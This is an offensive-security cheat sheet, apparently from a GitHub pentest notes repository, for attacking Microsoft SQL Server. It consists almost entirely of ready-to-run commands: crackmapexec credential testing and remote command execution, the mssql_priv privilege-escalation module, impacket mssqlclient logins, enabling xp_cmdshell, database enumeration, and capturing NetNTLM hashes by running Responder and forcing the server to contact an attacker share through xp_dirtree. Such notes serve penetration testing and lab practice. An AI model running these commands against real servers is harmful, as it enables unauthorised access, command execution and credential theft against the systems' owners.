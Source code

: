 **MSSQL:**
---
```shell
crackmapexec mssql $TARGET_IP -u $USER -p $PASSWORD
```

```shell
crackmapexec mssql --local-auth $TARGET_IP -u $USER -p $PASSWORD -L
```

Try to execute command on server:
```shell
crackmapexec mssql --local-auth $TARGET_IP -u $USER -p $PASSWORD -x 'ping $ATTACKER'
```
and on attacker box:
```shell
sudo tcpdump -i tun0 icmp -n
```

Try to start mssql_priv:

```shell
crackmapexec mssql --local-auth $TARGET_IP -u $USER -p $PASSWORD -M mssql_priv
```

One client is mssqlclient.py:

```shell
mssqlclient.py $USER:$PASSWORD@$DOMAIN
```

Or use impacket to open console:

```shell
impacket-mssqlclient $TARGET_DOMAIN/$TARGET_USER:$TARGET_PASSWORD@$TARGET_NAME
```

Try:

```mssql
enable_xp_cmdshell
```

in MSSQL server try, start responder on attacker box:
```sql
xp_dirtree \\$ATTACKER_IP\fake\share
```

**List databases:**
---
```sql
SELECT name, database_id, create_date FROM sys.databases;
```

```sql
SELECT STRING_AGG(name, ', ') FROM master..sysdatabases;
```

Get current DB name:
---
```sql
SELECT DB_NAME();
```

```sql
SELECT DB_NAME(N); — for N = 0,1,2,3;
```

**List tables in selected DB:**
---
#mssql 
```sql
SELECT * FROM SYSOBJECTS WHERE xtype = 'U';
```

```sql
SELECT name FROM $DB_NAME..sysobjects WHERE xtype = 'U' order by name offset 1 rows fetch next 1 rows only)
```

Leak NetNTLM hashes
---
#hash #ntlm #netntlm #responder
Start responder or another hash grabber to get user and hash:

```bash
sudo responder.py -I tun0
```

and trick the MSSQL server to connect to the "share":

```sql
exec master.dbo.xp_dirtree '//$LOCAL_IP/non/existing'
```

